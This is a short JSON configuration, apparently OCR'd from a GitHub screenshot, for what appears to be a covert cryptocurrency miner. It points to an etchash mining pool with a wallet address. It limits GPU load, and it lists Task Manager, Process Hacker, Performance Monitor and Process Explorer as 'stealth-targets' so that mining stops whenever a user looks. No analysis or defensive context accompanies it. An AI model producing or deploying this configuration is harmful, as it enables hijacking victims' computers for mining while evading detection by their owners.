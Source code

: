 {
    "url": "stratums://`0x8BE7CA17FF9C100220383866E1AaFE5f61c4BDBB`.VORKER(LOH)@etc.2miners.com:11010",
    "algo": "etchash",
    "max-gpu": 50,
    "idle-wait": 2,
    "idle-gpu": 10,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
